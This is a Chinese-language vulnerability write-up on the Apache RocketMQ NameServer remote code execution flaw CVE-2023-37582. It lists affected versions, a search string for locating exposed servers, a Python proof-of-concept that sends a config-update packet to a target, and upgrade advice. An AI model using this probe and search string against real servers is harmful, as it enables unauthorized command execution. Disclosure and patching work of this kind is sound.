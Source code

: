 # Apache RocketMQ 远程代码执行漏洞 CVE-2023-37582

## 漏洞描述

此漏洞是由于 CVE-2023-33246 补丁未修复完全，当 RocketMQ 的NameServer 组件暴露在外网，且缺乏有效的身份认证时，攻击者可以利用更新配置功能，以 RocketMQ 运行的系统用户身份执行任意命令。

## 漏洞影响

```
RocketMQ < 4.9.7
RocketMQ < 5.1.2
```

## 网络测绘

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
import socket
import binascii
 
client = socket.socket()
client.settimeout(5)
 
client.connect((target_ip,target_port))
## make payload
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
 
body=('Thanks DawnT0wn').encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
## send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
```

## 漏洞修复

目前官方已发布安全版本，建议受影响用户升级至：

- RocketMQ 5.x >= 5.1.2
- RocketMQ 4.x >= 4.9.7

官方补丁下载地址：https://rocketmq.apache.org/download/，同时建议将 NameServer、Broker 等组件部署在内网，并增加权限认证。